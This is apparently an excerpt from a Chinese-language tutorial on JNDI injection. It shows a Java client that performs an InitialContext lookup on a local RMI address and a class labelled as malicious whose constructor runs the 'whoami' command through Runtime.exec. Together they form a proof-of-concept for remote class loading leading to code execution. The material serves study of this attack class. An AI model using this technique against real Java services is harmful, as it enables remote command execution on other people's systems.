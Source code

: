 客户端代码

```bash
import javax.naming.Context;
import javax.naming.InitialContext;

public class CLIENT {

    public static void main(String[] args) throws Exception {

        String uri = "rmi://127.0.0.1:1099/aa";
        Context ctx = new InitialContext();
        ctx.lookup(uri);

    }

}
```

恶意类

```bash
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class ExecTest {
    public ExecTest() throws IOException,InterruptedException{
        String cmd="whoami";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    }

    private static void printMessage(final InputStream input) {
        // TODO Auto-generated method stub
        new Thread (new Runnable() {
            @Override
            public void run() {
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try {
                    while ((line=bf.readLine())!=null)
                    {
                        System.out.println(line);
                    }
                }catch (IOException  e){
                    e.printStackTrace();
                }
            }
        }).start();
    }
}
```
